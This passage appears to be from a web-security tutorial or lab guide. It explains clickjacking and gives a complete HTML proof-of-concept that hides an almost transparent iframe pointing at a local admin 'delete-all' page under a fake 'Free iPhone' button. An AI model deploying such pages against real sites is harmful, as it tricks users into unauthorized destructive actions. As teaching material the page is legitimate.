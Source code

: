 
## Clickjacking

### 🎯 Overview

**Clickjacking** tricks users into clicking something different from what they perceive, potentially revealing confidential information or allowing unauthorized actions.

### 🔓 Step-by-Step Exploitation

#### Attack 1: Basic Clickjacking

```html
<!-- clickjack.html -->
<!DOCTYPE html>
<html>
<head>
    <title>Free iPhone!</title>
    <style>
        #target-site {
            position: absolute;
            top: 0;
            left: 0;
            opacity: 0.0001;  /* Nearly invisible */
            width: 800px;
            height: 600px;
            z-index: 2;
        }
        
        #fake-button {
            position: absolute;
            top: 200px;
            left: 300px;
            z-index: 1;
            padding: 20px 40px;
            background: #4CAF50;
            color: white;
            font-size: 24px;
            border-radius: 5px;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <div id="fake-button">
        Click here to win a FREE iPhone! 🎁
    </div>
    
    <!-- Hidden iframe with actual site -->
    <iframe id="target-site" src="http://localhost:3000/wcorp/admin/delete-all"></iframe>
    
    <!-- User thinks they're clicking "Win iPhone" but actually clicking "Delete All" -->
</body>
</html>
```
